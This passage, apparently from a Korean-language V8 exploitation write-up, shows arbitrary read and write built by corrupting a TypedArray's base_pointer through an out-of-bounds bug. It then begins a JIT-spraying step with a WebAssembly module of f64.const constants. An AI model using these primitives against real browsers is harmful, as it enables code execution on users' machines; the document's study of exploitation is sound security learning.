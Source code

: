 ![image](https://github.com/user-attachments/assets/5316c27c-0680-4d5c-a8d1-46e24b6815e8)

![image](https://github.com/user-attachments/assets/02e283cc-3063-4e04-b4c9-ef9a0417de04)

![image](https://github.com/user-attachments/assets/c205a1a1-6076-48bc-bc80-90ebc338dcf9)

OOB를 이용하여 `TypedArray`의 `base_pointer`를 조작하면 sandbox 내부의 임의의 주소에 접근하여 값을 읽거나 쓸 수 있다.

```js
// aar test
let tmp_obj_addr = addrof(tmp_obj);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/2c0cbd19-eda0-4f60-a90b-f44cd4034d0b)

![image](https://github.com/user-attachments/assets/26647b31-1144-4778-b04c-7611943b32e2)

```js
// aaw test
aarw(tmp_obj_addr - 1n, 0x4141414141414141n);
console.log(`[+] *${hex(tmp_obj_addr - 1n)} == ${hex(aarw(tmp_obj_addr - 1n))}`);
```

![image](https://github.com/user-attachments/assets/f7103a3c-c246-4d81-b7b7-2c3fb609d4d6)

![image](https://github.com/user-attachments/assets/075c2c39-8544-4d07-9944-2517f26a5f06)

### Execute shellcode - JIT spraying

```bash
echo '(module
    (func $main
        f64.const 1.1
        f64.const 2.2
        f64.const 3.3
        return
    )
    (export "main" (func $main))
)' > pwn.wat
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
```

![image](https://github.com/user-attachments/assets/e03fcdc8-d70c-41ad-a74f-1cfa4f4a82a9)

JavaScript에서 WebAssembly module의 exported function을 최초로 호출하면 run-time에 lazy compilation이 진행되는데, 이때 `f64.const` instruction의 operand들이 코드에 raw number로 삽입된다.

[wasm.py](./wasm.py)

```shell
$ python3 wasm.py
[0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0x20, 0x1, 0x1e, 0x0, 0x44, 0x9a, 0x99, 0x99, 0x99, 0x99, 0x99, 0xf1, 0x3f, 0x44, 0x9a, 0x99, 0x99, 0x99, 0x99, 0x99, 0x1, 0x40, 0x44, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0xa, 0x40, 0xf, 0xb]
```
